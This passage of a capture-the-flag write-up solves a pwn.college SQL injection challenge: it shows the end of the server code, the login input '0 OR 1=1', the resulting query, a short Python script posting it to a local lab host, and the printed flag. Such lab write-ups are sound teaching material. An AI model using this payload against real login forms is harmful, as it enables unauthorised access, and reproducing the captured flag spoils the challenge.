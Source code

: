 ```py title="/challenge/server" showLineNumbers
        User:<input type=text name=identity>Pin:<input type=text name=pin><input type=submit value=Submit>
        </form>
        </body></html>
    """
    )


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
```

### SQL injection

Let's try the following credentials:

```
identity: admin
pin: 0 OR 1=1
```

The resultant SQL query will be:

```sql
SELECT rowid, * FROM users WHERE username = 'admin' AND pin = 0 OR 1=1
```

Since the result of `1=1` is always true/1 and anything OR with 1 is 1, the query will always be executed even if the password isn't password.

```py title="~/script.py" showLineNumbers
import requests

url = "http://challenge.localhost:80/session"
data = {
    "identity": "admin",
    "pin": "0 OR 1=1"
}

with requests.Session() as session:
    response = session.post(url, data = data)
    print(response.text)
```

```
hacker@web-security~sqli-1:/$ python ~/script.py
<html><body>Hello, admin!<br>Here is your flag: pwn.college{0RQz9ukgGE_ktokPgDEKWsxghoL.dNzN1YDL4ITM0EzW}

        <hr>
        <form method=post>
        User:<input type=text name=identity>Pin:<input type=text name=pin><input type=submit value=Submit>
        </form>
        </body></html>
```

